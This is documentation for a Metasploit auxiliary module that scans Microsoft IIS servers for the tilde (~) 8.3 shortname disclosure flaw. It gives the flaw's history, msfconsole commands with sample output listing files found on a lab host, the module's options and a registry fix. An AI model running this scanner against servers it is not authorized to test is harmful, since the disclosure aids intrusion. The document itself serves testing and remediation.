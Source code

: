
## Microsoft IIS shortname vulnerability scanner

The vulnerability is caused by a tilde character "~" in a GET or OPTIONS request, which could allow remote attackers to diclose 8.3 filenames (short names). In 2010, Soroush Dalili and Ali Abbasnejad discovered the original bug (GET request) This was publicly disclosed in 2012. In 2014, Soroush Dalili discovered that newer IIS installations are vulnerable with OPTIONS.

## Vulnerable Application

Older Microsoft IIS installations are vulnerable with GET, newer installations with OPTIONS
  
  
## Verification Steps

  1. Install IIS (default installations are vulnerable)
  2. Start msfconsole
  3. Check:
  
  ```
  msf > use auxiliary/scanner/http/iis_shortname_scanner
  msf auxiliary(iis_shortname_scanner) > set 172.16.249.128
  msf auxiliary(iis_shortname_scanner) > check
  [+] 172.16.249.128:80 The target is vulnerable.
  ```

  4. Scan:
  
  ```
  msf auxiliary(iis_shortname_scanner) > run
  [*] Scanning in progress...
  [+] Directories found
  http://172.16.249.128/aspnet~1
  http://172.16.249.128/secret~1
  [+] Files found
  http://172.16.249.128/web~1.con
  http://172.16.249.128/index~1.htm
  http://172.16.249.128/upload~1.asp
  http://172.16.249.128/upload~2.asp
  [*] Auxiliary module execution completed
  ```

## Options

```
  Module options (auxiliary/scanner/http/iis_shortname_scanner):

  Name     Current Setting  Required  Description
  ----     ---------------  --------  -----------
  PATH     /                yes       The base path to start scanning from
  Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOST                     yes       The target address
  RPORT    80               yes       The target port (TCP)
  SSL      false            no        Negotiate SSL/TLS for outgoing connections
  VHOST                     no        HTTP server virtual host
```

## Remediation

Create registry key `NtfsDisable8dot3NameCreation` at `HKLM\SYSTEM\CurrentControlSet\Control\FileSystem`, with a value of `1`


## References

  * https://soroush.secproject.com/blog/tag/iis-tilde-vulnerability/
  * https://support.detectify.com/customer/portal/articles/1711520-microsoft-iis-tilde-vulnerability
